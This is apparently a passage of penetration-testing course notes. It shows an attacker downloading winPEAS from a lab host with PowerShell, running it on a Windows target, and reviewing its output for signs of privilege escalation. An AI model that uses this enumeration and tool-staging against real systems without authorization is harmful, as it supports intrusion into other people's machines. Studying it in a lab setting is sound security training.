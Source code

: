 ```
iwr -uri http://192.168.118.3/winPEASx64.exe -Outfile winPEAS.exe
```

Now, let's run the winPEAS program
+ It'll take a few minutes for the program to finish
+ While it is running, let's review the output legend of winPEAS
+ It categorizes results in different colors indicating items worth a deeper inspection (red) and important information about protections (green)
```
C:\Users\dave> .\winPEAS.exe
...
+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links
```

After the program is finished, let's review some of its findings. We begin with the basic system information:
```
...
����������͹ Basic System Information
...    
    Hostname: clientwk220
    ProductName: Windows 10 Pro
    EditionID: Professional
    ReleaseId: 2009
    BuildBranch: co_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 6/23/2022 2:30:36 PM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: 
...
```
+ Above shows that winPEAS detected the target machine as _Windows 10 Pro_ instead of Windows 11 as we established before
+ This shows that we should never blindly trust the output of a tool

Next, winPEAS provides information about security protections as well as PowerShell and NTLM settings
+ One of these information sections is about transcript files
```
...    
����������͹ PS default transcripts history
� Read the PS history inside these files (if any)
...
```
+ The list of transcript files is empty, but we know that one exists in **`C:\Users\Public\`**. This is another example of information we would have missed by relying on tool output alone without incorporating manual work
